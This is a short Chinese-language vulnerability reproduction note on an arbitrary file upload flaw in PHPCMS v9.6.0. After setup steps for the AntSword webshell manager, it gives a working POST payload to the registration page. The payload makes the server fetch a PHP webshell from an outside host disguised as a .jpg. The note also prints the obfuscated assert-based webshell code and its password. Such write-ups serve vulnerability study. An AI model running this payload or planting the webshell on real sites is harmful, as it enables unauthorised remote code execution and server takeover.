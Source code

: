 # PHPCMS v9.6.0版任意文件上传漏洞分析笔记

# 参考：

跟着松牛的代码审计调试一波。  
[PHPCMS最新版任意文件上传漏洞分析](https://mp.weixin.qq.com/s/Idbv27CCEAZzBFSPmYDmyQ)

---

# 安装：

phpcms安装：  
![](https://ws4.sinaimg.cn/large/006tKfTcgy1fi8vtqr4f8j30vg0p0whv.jpg)

中国蚁剑安装：

1.安装node.js  
下载安装[nodejs v4.0+](https://nodejs.org/)

[https://github.com/antoor/antSword/releases](https://github.com/antoor/antSword/releases)  
下载  
![](https://ws1.sinaimg.cn/large/006tKfTcgy1fi8wt526wdj317e0bsgmu.jpg)

解压，挂代理然后安装  
`$ cd antSword  
$ npm install`

在对应目录下启动：  
`npm start`

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fi8wv9s2nfj31cs0r2tb1.jpg)

美滋滋~mac环境下终于不用再开虚拟机用中国菜刀.exe了 。

# 漏洞复现：

漏洞复现的办法是先打开注册页面，然后向注册页面POST如下payload：

`siteid=1&modelid=11&username=123456&password=123456&email=123456@qq.com&info[content]=<img src=http://files.hackersb.cn/webshell/antSword-shells/php_assert.php#.jpg>&dosubmit=1&protocol=`

然后就会报错并返回shell地址：

![](https://ws4.sinaimg.cn/large/006tKfTcgy1fi8vyz1051j31kw0fvdmx.jpg)

看看shell的密码:  
`<?php $ant=base64_decode("YXNzZXJ0");$ant($_POST['ant']);?>`

配置中国蚁剑：  
![](https://ws4.sinaimg.cn/large/006tKfTcgy1fi8xafur45j30oe0j8400.jpg)  
密码为ant
